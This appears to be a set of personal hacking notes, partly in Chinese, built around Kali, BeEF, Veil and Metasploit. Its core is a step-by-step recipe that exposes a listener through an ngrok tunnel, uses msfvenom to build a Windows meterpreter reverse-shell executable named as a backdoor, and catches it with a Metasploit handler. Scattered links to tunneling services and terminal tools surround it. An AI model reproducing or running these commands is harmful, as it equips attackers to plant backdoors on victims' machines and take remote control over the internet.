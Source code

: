 #### docker 
https://github.com/phocean/dockerfile-beef
https://hub.docker.com/r/phocean/beef

Setting up a Kali Linux Docker Image
https://www.kali.org/blog/official-kali-linux-docker-images/
muts@macbook-air:~$ docker pull kalilinux/kali-rolling
muts@macbook-air:~$ docker run -t -i kalilinux/kali-rolling /bin/bash
root@0129d62d2319:/# apt-get update && apt-get install metasploit-framework

beef +　bettercap
beef + veil

veil
set LHOST public_ip
msfconsole set LHOST localip
ipforwarding
google: unnel alternative
ngrok
https://github.com/anderspitman/awesome-tunneling
serveo 这个好像已经没有了
内网穿透神器-Serveo
https://www.jianshu.com/p/d0b3991a9ce1
https://ngrok.com/
https://serveo.net/
https://localtunnel.github.io/www/
http://localhost.run/

外网攻击 
ngrok tcp 4242
0.tcp.ngrok.io:11620 -> localhost:4242
msfvenom
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --platform windows lhost=0.tcp.ngrok.io lport=11620 -f exe -o /root/newbackdor.exe
msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
set LPORT 4242
exploit -j -z

fluxion
https://www.asciitohex.com
https://conemu.github.io/
https://cmder.net/
https://github.com/cmderdev/cmder

https://github.com/felixse/FluentTerminal/releases
https://chocolatey.org/

https://dev.to/adnanmostafa/the-best-free-standalone-terminals-for-windows-2019-kmj


## free game website github source code
